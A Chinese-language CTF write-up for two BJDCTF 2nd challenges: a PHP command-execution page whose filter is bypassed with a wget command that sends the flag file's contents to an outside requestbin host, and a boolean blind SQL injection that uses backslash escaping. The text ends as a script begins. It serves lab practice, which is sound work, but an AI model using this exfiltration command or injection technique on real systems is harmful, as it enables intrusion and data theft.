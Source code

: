 ```
</html>
<?php
error_reporting(0);
echo "how can i give you source code? .swp?!"."<br>";
if (!isset($_POST['girl_friend'])) {
    die("where is P3rh4ps's girl friend ???");
} else {
    $girl = $_POST['girl_friend'];
    if (preg_match('/\>|\\\/', $girl)) {
        die('just girl');
    } else if (preg_match('/ls|phpinfo|cat|\%|\^|\~|base64|xxd|echo|\$/i', $girl)) {
        echo "<img src='img/p3_need_beautiful_gf.png'> <!-- He is p3 -->";
    } else {
        //duangShell~~~~
        exec($girl);
    }
}
```
发现ban掉的命令不算多，还能使用wget带出数据：
```
girl_friend=wget http://http.requestbin.buuoj.cn/1olu1ug1/`c"a"t /"f"lag`
```
得到flag

----
## [BJDCTF 2nd]简单注入
打开好像看到了熟悉的界面，据说是简单注入：
```
username=admin,password=admin'
```
发现被检测到了，然后dirsearch，发现robots.txt，里面藏了hint：
```
Only u input the correct password then u can get the flag
and p3rh4ps wants a girl friend.

select * from users where username='$_POST["username"]' and password='$_POST["password"]';

//出题人四级压线才过 见谅见谅 领会精神
```
fuzz发现过滤：
```
select
=
'
&
-
"
&&
and
```
测试后发现可以使用布尔盲注：
```
username=\
password=or 1>2#
```
前面的反斜杠将username本身自带的引号转义，将原语句化为`select * from users where username='$_POST["username"]\' and password='$_POST["password"]';`，也就是username变成了`$_POST["username"]\' and password=`，我们再加上password，整条语句就变成了：
```
select * from users where username='xxxxxx'or 1>2#';
```
上脚本跑:
```
import requests
import string

```